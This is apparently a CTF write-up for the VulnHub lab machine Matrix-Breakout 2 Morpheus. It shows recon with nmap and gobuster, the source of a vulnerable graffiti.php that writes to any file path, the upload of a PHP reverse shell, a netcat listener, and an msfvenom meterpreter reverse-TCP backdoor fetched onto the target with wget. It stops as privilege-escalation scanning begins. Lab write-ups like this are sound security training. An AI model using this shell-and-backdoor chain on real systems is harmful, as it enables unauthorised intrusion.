# Matrix-Breakout: 2 Morpheus Writeup



### Description:This is the second in the Matrix-Breakout series, subtitled Morpheus:1. It’s themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.

### [download machine](https://vulnhub.com/entry/matrix-breakout-2-morpheus,757/)

### Phase 1: Reconnaissance
Getting the IP Address of the Target machine I used Netdiscover tool and got the ip address → 192.168.161.131



### Phase 2: Network Scanning

```bash
nmap -sV 192.168.161.131
```



Here port 80 http is open, lets open it in browser and see what it shows



Following is the webpage that is present on target machine, and nothing interesting in source and nothing in cookies and localstorge

Now I will use Gobuster to get the endpoints/dirs for this webapp that are hidden

```bash
gobuster dir -u http://192.168.161.131/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt,.html
```



So I got the following results:
/robots.txt
/graffiti.txt
/graffiti.php

Lets visit robots.txt,
Got this LOL -> There's no white rabbit here. Keep searching!

-> Let try graffiti.txt
It is just a text file nothing special

Lets try graffiti.php here we got a web page with a input box and also we can do xss attact from this



Now let's analyse this request in Burpsuite to get the path for the file here's the data variables that are taking data



Now when I try changing the file extension to see whether new file is getting saved or not, it is saved and message is written into the file and file gets stored on the server, now let’s try to get the source code for the graffiti.php file to know the backend working



Here I got the source code of the graffiti.php


```php

$file="graffiti.txt";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
if (isset($_POST['file'])) {
$file=$_POST['file'];
}
if (isset($_POST['message'])) {
$handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
fwrite($handle, $_POST['message']);
fwrite($handle, "\n");
fclose($file);
}
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
echo fgets($handle);
echo "
\n";
}
fclose($handle);
?>

```

Here it is just getting the message from the input box and writing its value in the graffiti.txt file.

Now I will try to upload a php reverse shell File



The file got uploaded successfully, now lets try to get the reverse shell, here I am using netcat to get the connection from the target machine to my kali machine


```bash
nc -nlvp 4545
```



Now I have reverse shell and I got the access of the user www-data

### Phase 3: Exploitation


We got our first flag in FLAG.txt, and also hints for the user cypher lets see we get its password

I don’t have access to /etc/shadow nor /etc/passwd, lets use metasploit to get the exploits that can be used to exploit this machine

For this I am generating a backdoor using msfvenom and uploading it /tmp of target machine


```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.161.128 LPORT=6565 -f elf -o escalate.elf
```



I used wget to get the file from my kali to the target machine and then got the meterpreter session in metasploit



Now I have make that session to run in background, and now I will use search suggester to do a exploit scan



